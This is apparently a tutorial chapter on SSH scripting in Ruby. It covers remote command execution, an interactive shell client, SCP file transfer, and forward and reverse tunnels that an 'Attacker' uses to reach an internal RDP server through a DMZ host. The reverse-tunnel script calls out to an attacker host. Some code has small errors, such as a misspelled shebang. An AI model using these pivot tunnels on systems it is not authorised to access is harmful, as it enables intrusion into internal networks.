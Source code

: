 # SSH
Here we shows some SSH using ruby
we'll need to install net-ssh gem for that

```
gem install net-ssh
```

## Simple SSH command execution 
This is a very basic ssh client which sends and executes commands on a remote system 
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"
@cmd = ARGV[0]

begin
  ssh = Net::SSH.start(@hostname, @username, :password => @password)
  res = ssh.exec!(@cmd)
  ssh.close
  puts res
rescue
  puts "Unable to connect to #{@hostname} using #{@username}/#{@password}"
end
```

## SSH Client  
Here a simple ssh client which give you an interactive PTY

```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"
@cmd = ARGV[0]

Net::SSH.start('localhost', 'fish', :password => "123123", :auth_methods => ["password"]) do |session|

  # Open SSH channel 
  session.open_channel do |channel|
    
    # Requests that a pseudo-tty (or "pty") for interactive application-like (e.g vim, sudo, etc)
    channel.request_pty do |ch, success| 
      raise "Error requesting pty" unless success 

      # Request channel type shell
      ch.send_channel_request("shell") do |ch, success| 
        raise "Error opening shell" unless success
	STDOUT.puts "[+] Getting Remote Shell\n\n" if success
	sleep 0.5
      end  
    end

    # Print STDERR of the remote host to my STDOUT
    channel.on_extended_data do |ch, type, data|
      STDOUT.puts "Error: #{data}\n"
    end

    # When data packets are received by the channel
    channel.on_data do |ch, data|
      STDOUT.print data 
      cmd = gets
      channel.send_data( "#{cmd}" ) #unless cmd.empty?
      channel.send_data "\n" if data.chomp.empty?
      trap("INT") {STDOUT.puts "Use 'exit' or 'logout' command to exit the session"}
    end 
    
    channel.on_eof do |ch|
      puts "Exiting SSH Session.."
    end
    
    session.loop
  end  
end    

```


## SSH Tunneling

### Forward SSH Tunnel

```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| ----SSH Tunnel---> | |SSH Server| <-RDP-> |Web server| |
                              |                 |                 |
                              |-----------------|-----------------|
```

Run ssh-ltnnel.rb on the **SSH Server** 

**ssh-ftunnel.rb**
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("127.0.0.1", 'root', :password => '123132') do |ssh|

  ssh.forward.local('0.0.0.0', 3333, "WebServer", 3389)

  puts "[+] Starting SSH forward tunnel"
  ssh.loop { true }
end
```

Now connect to the **SSH Server** on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop WebServer:3333
```


### Reverse SSH Tunnel 
```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| <---SSH Tunnel---- | |SSH Server| <-RDP-> |Web server| |
  |->-|                       |                 |                 |
                              |-----------------|-----------------|
```
Run ssh-rtnnel.rb on the **SSH Server** 

**ssh-rtunnel.rb**
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("AttacerIP", 'attacker', :password => '123123') do |ssh|

  ssh.forward.remote_to(3389, 'WebServer', 3333, '0.0.0.0')
  
  puts "[+] Starting SSH reverse tunnel"
  ssh.loop { true }
end
```

Now SS from the **SSH Server** to **localhost** on the localhost's ssh port then  connect from your localhost to your localhost on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop localhost:3333
```



## Copy files via SSH (SCP)

- To install scp gem
```
gem install net-scp
```

- Upload file 

```ruby
require 'net/scp'

Net::SCP.upload!(
    		        "SSHServer", 
                    "root",
                    "/rubyfu/file.txt", "/root/", 
                    #:recursive => true,    # Uncomment for recursive
                    :ssh => { :password => "123123" }
                )
```

- Download file 

```ruby
require 'net/scp'

Net::SCP.download!(
    		        "SSHServer", 
                    "root",
                    "/root/", "/rubyfu/file.txt",
                    #:recursive => true,    # Uncomment for recursive
                    :ssh => { :password => "123123" }
                  )
```




<br><br><br>
---
- [More SSH examples](http://ruby.about.com/sitesearch.htm?q=ruby+ssh&boost=3&SUName=ruby)
- [Capistranorb.com](http://capistranorb.com/)
- [Net:SSH old docs with example](http://net-ssh.github.io/ssh/v1/chapter-6.html)



